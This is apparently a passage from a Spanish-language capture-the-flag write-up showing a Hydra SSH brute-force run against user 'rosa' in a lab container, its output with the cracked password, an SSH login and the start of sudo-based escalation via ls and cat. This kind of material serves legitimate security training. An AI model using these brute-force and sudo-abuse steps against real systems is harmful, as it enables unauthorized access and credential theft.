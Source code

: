 ## hydra

```shell
hydra -l rosa -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-15 13:23:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.23.0.2:22/
[STATUS] 420.00 tries/min, 420 tries in 00:01h, 14344004 to do in 569:13h, 39 active
[22][ssh] host: 172.23.0.2   login: rosa   password: lovebug
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 28 final worker threads did not complete until end.
[ERROR] 28 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-15 13:25:52
```

Veremos que nos saco las credenciales, por lo que nos conectaremos por ssh.

## SSH

```shell
ssh rosa@<IP>
```

Metemos la contraseña y ya estariamos dentro de la maquina.

## Escalate user pedro

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for rosa on f09e53c187cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rosa may run the following commands on f09e53c187cf:
    (ALL) NOPASSWD: /usr/bin/ls, /usr/bin/cat
```

Podremos ejecutar los binarios `cat` y `ls` como el usuario `root`, por lo que haremos lo siguiente.

```shell
sudo ls /root
```
